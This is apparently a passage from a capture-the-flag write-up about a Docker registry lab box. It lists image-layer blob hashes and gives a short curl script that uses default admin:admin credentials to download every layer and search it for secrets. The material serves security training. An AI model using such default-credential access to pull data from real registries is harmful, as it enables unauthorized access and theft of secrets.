 ```
      {                                                                                             
         "blobSum": "sha256:2931a8b44e495489fdbe2bccd7232e99b182034206067a364553841a1f06f791"
      },            
      {                                                                                                                                                                                                 
         "blobSum": "sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4"
      },                   
      {                                                                                             
         "blobSum": "sha256:f5029279ec1223b70f2cbb2682ab360e1837a2ea59a8d7ff64b38e9eab5fb8c0"                                                                                                           
      },                                                                                            
      {                   
         "blobSum": "sha256:d9af21273955749bb8250c7a883fcce21647b54f5a685d237bc6b920a2ebad1a"
      },                                                                                                                                                                                                
      {                                                                                                                                                                                                 
         "blobSum": "sha256:8882c27f669ef315fc231f272965cd5ee8507c0f376855d6f9c012aae0224797"
      },
      {                                                                                                                                                                                                 
         "blobSum": "sha256:f476d66f540886e2bb4d9c8cc8c0f8915bca7d387e536957796ea6c2f8e7dfff"
      }
   ],
```

The blobs are like commits to the "latest" image. They are `gzip`'d tarballs. We can download these blobs and inspect them further for any sensitive information. Let's write a shell script to download all of them.

<div class="filename"><span>fetch.sh</span></div>

```
#!/bin/bash                                

HOST=docker.registry.htb                   
USER=admin                                 
PASS=admin                                 
BLOB=$1                                    

curl -s \                                  
     --output ${BLOB#sha256:*}.tar.gz \    
     --user "${USER}:${PASS}" \            
     http://$HOST/v2/bolt-image/blobs/$BLOB
```
